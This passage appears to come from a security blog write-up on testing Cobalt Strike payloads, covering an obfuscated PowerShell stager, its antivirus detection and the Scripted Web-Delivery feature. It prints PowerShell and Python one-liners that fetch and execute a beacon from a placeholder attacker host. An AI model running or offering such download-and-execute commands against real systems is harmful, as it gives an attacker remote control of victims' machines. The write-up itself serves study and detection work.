 [**VirusTotal Report**](https://www.virustotal.com/gui/file/eaf823b675b9c9a0a3868c827f650f5612a2f42d34a77b1392fff4a1ccd7f990/detection)

Many more antivirus engines (32/59) detected this script than the Excel macro. Examining the code, you may notice the `[Byte[]]$var_code = [System.Convert]::FromBase64String('<VERY long Base64 string>')` line; while the *code* is relatively short, the Base64 string contained within it exceeds 350,000 characters, so I did not include the full output. Using alternative encoding is a classic malware obfuscation tactic, and I am not surprised to see it employed here.

Using, `[System.Convert]::FromBase64String()` I decoded the Base64 string, which revealed a massive set of numbers. It appears that these numbers are bitwise XORed with `35` (ASCII '#') to reconstruct the malicious commands. As shown by the VirusTotal report, this process was not complex enough to prevent widespread detection by updated AV engines.

As with the Excel macro, running this script on the victim host also established a tunnel back to Cobalt Strike.

## Special Delivery

Certain situations may present themselves in which an attacker has difficulty planting a file into the victim's environment; thus, HelpSystems has established alternative delivery methods. One such method is *Scripted Web-Delivery,* an all-in-one setup that hosts a malicious file and provides one-liners in different languages to automate fetching and executing the file on the victim host.

![Screenshot of Cobalt Strike Scripted Web-Delivery](/media/playing-with-cobalt-strike-8.png)

Victim one-liners, given a payload of `windows/beacon_http/reverse_http`:
```powershell
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://X.X.X.X:80/a'))"
```
```python
python -c "import urllib2; exec urllib2.urlopen('http://X.X.X.X:80/a').read();"
```

Windows Defender identifies the PowerShell threat as `TrojanDropper:PowerShell/Cobacis.B`.

## More Stuff

### C Payload

Using the Payload Generator, Cobalt Strike will form a buffer array in several different languages. An example of this is shown below in C, though Java, Python, Perl, PowerShell, and more are supported as well.

```c
```